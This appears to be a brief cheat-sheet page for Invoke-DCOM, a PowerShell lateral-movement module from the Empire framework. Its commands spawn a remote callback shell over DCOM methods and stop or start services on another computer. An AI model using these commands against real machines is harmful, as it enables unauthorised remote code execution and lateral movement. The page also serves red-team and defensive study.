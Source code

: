 # Invoke-DCOM

- Spawn the callback shell.

```
PS C:\> Import-Module Invoke-DCOM.ps1

PS C:\> Invoke-DCOM -ComputerName <IP> -Method <MMC20.Application | ShellWindows | ShellBrowserWindow | ExcelDDE> -Command C:\path\to\remote\shell.exe
```

- Modify the service.

```
PS C:\> Invoke-DCOM -ComputerName <IP> -Method <ServiceCheck | MinimizeAll | ServiceStop | ServiceStart> "<service_name>"
```

---
## References

- [Invoke-DCOM](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1)